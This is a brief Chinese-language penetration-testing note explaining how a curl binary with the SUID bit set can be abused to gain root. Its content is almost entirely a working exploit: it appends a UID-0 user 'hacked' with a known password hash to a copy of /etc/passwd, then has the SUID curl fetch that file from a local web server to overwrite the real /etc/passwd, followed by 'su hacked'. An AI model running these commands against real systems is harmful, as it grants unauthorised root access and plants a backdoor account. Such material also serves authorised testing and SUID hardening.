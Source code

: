 # curl 

curl suid 提权思想：利用 s 权限下载远程文件覆盖目标靶机上的文件进行提权。

先创建一个 passwd 文件，写入下面一行：
```
# 用户名 hacked ，密码 pass123
hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```
命令如下：
```
cp /etc/passwd .
echo 'hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> passwd # 注意必须是单引号
```


如果 `curl` 具有 s 权限，可使用如下命令获取 root 权限：

```
./curl http://127.0.0.1:8000/passwd -o /etc/passwd
su hacked
密码为 pass123
```

